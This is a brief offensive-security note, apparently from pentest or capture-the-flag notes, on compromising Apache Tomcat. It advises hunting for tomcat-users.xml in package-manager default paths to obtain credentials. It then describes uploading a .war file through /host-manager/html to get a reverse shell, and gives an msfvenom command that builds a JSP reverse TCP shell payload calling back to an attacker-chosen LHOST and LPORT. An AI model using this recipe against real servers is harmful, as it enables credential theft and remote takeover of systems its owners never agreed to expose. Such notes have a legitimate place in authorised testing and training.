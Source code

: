 If you don't find a apache tomcat server and you don't find the desired files (typically `tomcat-users.xml`) Think about checking the default paths when you install it through a package manager. There you may find gold.

If you manage to reach `/host-manager/html` then you can try uploading a .war file to trigger a reverse shell.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war
```